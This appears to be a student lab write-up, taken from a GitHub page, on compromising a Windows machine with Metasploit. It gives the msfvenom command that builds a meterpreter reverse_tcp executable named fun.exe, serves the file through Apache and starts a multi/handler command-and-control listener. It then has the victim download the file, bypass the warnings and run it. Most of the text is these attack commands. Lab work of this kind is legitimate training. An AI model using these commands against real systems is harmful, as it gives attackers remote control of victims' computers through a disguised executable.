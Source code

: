 ```bash

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="1137" height="556" alt="image" src="https://github.com/user-attachments/assets/094cd334-714d-4c14-8da2-82c3aa0c5760" />

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="1141" height="226" alt="image" src="https://github.com/user-attachments/assets/078eb054-8737-48f7-a9c6-910e636b6e27" />

copy the fun.exe into the apache ```/var/www/html ```folder

<img width="502" height="112" alt="image" src="https://github.com/user-attachments/assets/127a523f-be0c-4332-b7c7-3e96a4e6f509" />

Start apache server ```sudo systemctl apache2 start``` 

<img width="558" height="178" alt="image" src="https://github.com/user-attachments/assets/78f020b2-7a6c-42b1-b5ea-1181075acc57" />

Check the status of apache2 ```sudo apache2 status```

<img width="1900" height="628" alt="image" src="https://github.com/user-attachments/assets/d1e048f1-eb3c-4fa7-a82b-0449eebbb39f" />

Invoke msfconsole:

<img width="1015" height="833" alt="image" src="https://github.com/user-attachments/assets/3bc1a59a-7268-428d-8c9b-33ef7fdd1cb1" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="1372" height="823" alt="image" src="https://github.com/user-attachments/assets/1cbc611b-a9b5-47bf-b625-5bc27cb0b089" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="981" height="311" alt="image" src="https://github.com/user-attachments/assets/df073433-9fe3-4a92-9236-424b6bf97458" />


<img width="1918" height="293" alt="image" src="https://github.com/user-attachments/assets/6f12e272-7fc1-40c8-b17a-344e703c9975" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.